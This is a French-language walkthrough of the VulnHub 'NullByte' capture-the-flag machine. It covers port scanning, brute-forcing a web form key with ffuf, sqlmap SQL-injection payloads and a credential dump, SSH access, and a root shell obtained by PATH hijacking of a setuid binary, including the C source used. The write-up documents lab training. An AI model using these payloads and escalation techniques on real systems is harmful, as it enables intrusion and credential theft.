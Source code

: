 ```yaml
---
title: "Solution du CTF NullByte de VulnHub"
tags: [CTF, VulnHub]
---
```


[NullByte](https://vulnhub.com/entry/nullbyte-1,126/) est un CTF proposé sur VulnHub et datant du mois d'aout 2015. Il est plutôt simple mais attention le début est *un peu* orienté stéganographie ce qui peu dérouter les participants.

```
Nmap scan report for 192.168.56.93
Host is up (0.0012s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Null Byte 00 - level 1
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          45635/udp6  status
|   100024  1          46283/tcp6  status
|   100024  1          50378/udp   status
|_  100024  1          55523/tcp   status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 163013d9d55536e81bb7d9ba552fd744 (DSA)
|   2048 29aa7d2e608ba6a1c2bd7cc8bd3cf4f2 (RSA)
|   256 6006e3648f8a6fa7745a8b3fe1249396 (ECDSA)
|_  256 bcf7448d796a194876a3e24492dc13a2 (ED25519)
55523/tcp open  status  1 (RPC #100024)
```

Sur la page d'index juste une image GIF. On lé télécharge et on lance `exiftool` dessus :

```
$ exiftool main.gif 
ExifTool Version Number         : 12.50
File Name                       : main.gif
Directory                       : .
File Size                       : 17 kB
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

Le commentaire sur l'image correspond à un nom de dossier sur le serveur web. On y trouve un formulaire qui demande une clé, visiblement il n'y a pas de backend derrière, la solution doit être hardcodée :

```html
<center>
<form method="post" action="index.php">
Key:<br>
<input type="password" name="key">
</form> 
</center>
<!-- this form isn't connected to mysql, password ain't that complex --!>
```

Par conséquent on peut se permettre de bourriner pour trouver cette clé :

```bash
$ ffuf -u "http://192.168.56.93/kzMb5nVYJw/index.php" -w wordlists/rockyou.txt -X POST -d "key=FUZZ" -H "Content-type: application/x-www-form-urlencoded" -fs 244

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.93/kzMb5nVYJw/index.php
 :: Wordlist         : FUZZ: wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : key=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 244
________________________________________________

elite                   [Status: 200, Size: 145, Words: 9, Lines: 7]
```

Ce mot de passe tombe assez rapidement. Quand on le saisit on parvient sur un script PHP auquel on peut passer un nom d'utilisateur :

http://192.168.56.93/kzMb5nVYJw/420search.php?usrtosearch=yoyo

Le script indique juste :

> Fetched data successfully

J'ai d'abord pensé à un SSRF puisque 420 fait penser à un code HTTP mais si on place une apostrophe on obtient une erreur SQL.

On passe l'URL à `sqlmap` qui n'en fait qu'une bouchée :

```
---
Parameter: usrtosearch (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: usrtosearch=yoyo" OR NOT 1289=1289-- SoOq

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: usrtosearch=yoyo" AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162716a71,(SELECT (ELT(8532=8532,1))),0x716b7a7671,0x78))s), 8446744073709551610, 8446744073709551610)))-- sYSg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usrtosearch=yoyo" AND (SELECT 9187 FROM (SELECT(SLEEP(5)))kiRz)-- BroV

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: usrtosearch=yoyo" UNION ALL SELECT CONCAT(0x7162716a71,0x4a6f4b4a766e58634f566e4f6c774e66584948715273724957686147764c687863414f6e7a434e42,0x716b7a7671),NULL,NULL-- -
---
```

En rajoutant les options de dump habituelles j'obtiens des identifiants dans `seth.users` :

```
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

Le base64 se décode avec un warning en `omega`. Les identifiants `ramses` / `omega` permettent de se connecter en SSH sur le port 777.

Sous `/var/www` je trouve un dossier `backup` contenant un binaire setuid root :

```bash
ramses@NullByte:/var/www/backup$ ls
total 20K
drwxrwxrwx 2 root root 4.0K Aug  2  2015 .
drwxr-xr-x 4 root root 4.0K Aug  2  2015 ..
-rwsr-xr-x 1 root root 4.9K Aug  2  2015 procwatch
-rw-r--r-- 1 root root   28 Aug  2  2015 readme.txt
ramses@NullByte:/var/www/backup$ cat readme.txt 
I have to fix this mess...
```

Le binaire est très simple, il appelle juste la commande `ps` via `system()` qui est sujet aux altérations de l'environnement.

```nasm
int main (int argc, char **argv, char **envp);
; var const char *string @ ebp-0x3a
; var int32_t var_4h @ ebp-0x4
; arg char **argv @ esp+0x64
0x080483fb      lea     ecx, [argv]
0x080483ff      and     esp, 0xfffffff0
0x08048402      push    dword [ecx - 4]
0x08048405      push    ebp
0x08048406      mov     ebp, esp
0x08048408      push    ecx
0x08048409      sub     esp, 0x44
0x0804840c      lea     eax, [string]
0x0804840f      mov     word [eax], 0x7370 ; 'ps'
0x08048414      mov     byte [eax + 2], 0
0x08048418      sub     esp, 0xc
0x0804841b      lea     eax, [string]
0x0804841e      push    eax        ; const char *string
0x0804841f      call    system     ; sym.imp.system ; int system(const char *string)
0x08048424      add     esp, 0x10
0x08048427      mov     eax, 0
0x0804842c      mov     ecx, dword [var_4h]
0x0804842f      leave
0x08048430      lea     esp, [ecx - 4]
0x08048433      ret
```

Je compile un petit programme sous le nom `ps` qui va fixer mes uids effectif et réel à 0 puis je modifie le PATH pour que mon programme ait la priorité :

```bash
$ ramses@NullByte:/var/www/backup$ cat getroot.c 
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        system("/bin/dash");
        return 0;
}
ramses@NullByte:/var/www/backup$ gcc -o ps getroot.c 
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH
ramses@NullByte:/var/www/backup$ ./procwatch 
# id
uid=0(root) gid=1002(ramses) groups=1002(ramses)
# cd /root
# ls
proof.txt
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----
```

*Publié le 3 janvier 2023*
